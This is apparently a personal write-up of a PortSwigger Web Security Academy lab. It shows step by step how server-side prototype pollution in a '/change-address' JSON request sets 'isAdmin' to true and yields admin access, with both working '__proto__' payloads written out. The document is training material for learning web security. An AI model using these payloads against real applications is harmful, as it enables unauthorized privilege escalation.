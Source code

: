 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-5/"}
---
```



---
## Objective: Privilege Escalation

![Pasted image 20250331183441.png](/img/user/Images/Pasted%20image%2020250331183441.png)

We login using the given credentials:

`wiener:peter`

Looking at the fields below, looks like its updating the address. Let's take a look at the request being sent

![Pasted image 20250331183653.png](/img/user/Images/Pasted%20image%2020250331183653.png)

Yes, its goinng through the `/change-address` endpoint and sending a POST request with the data being in JSON.

![Pasted image 20250331183734.png](/img/user/Images/Pasted%20image%2020250331183734.png)

In the response section, we see a property set for our user `isAdmin: false` 

![Pasted image 20250331183755.png](/img/user/Images/Pasted%20image%2020250331183755.png)

We can attempt to test Server-Side Prototype Pollution by polluting the global `Object.prototype`. First send the request to `Repeater` . Then, add our property

```JSON
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"EDeUr5ViCIS1NfMWDumM95iX6FOWY4OJ",
	"__proto__":{
		"foo":"bar"
	}
}
```

Next send the request and look at the `Response` 

![Pasted image 20250331185236.png](/img/user/Images/Pasted%20image%2020250331185236.png)

Success, we polluted the prototype. Now we can do stuff like change the `isAdmin` property to `true`

```json
{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"EDeUr5ViCIS1NfMWDumM95iX6FOWY4OJ",
	"__proto__":{
		"foo":"bar",
		"isAdmin":"true"
	}
}
```

Look at the `Response` again

![Pasted image 20250331185632.png](/img/user/Images/Pasted%20image%2020250331185632.png)

Success! Now refresh the website page and we have received Admin access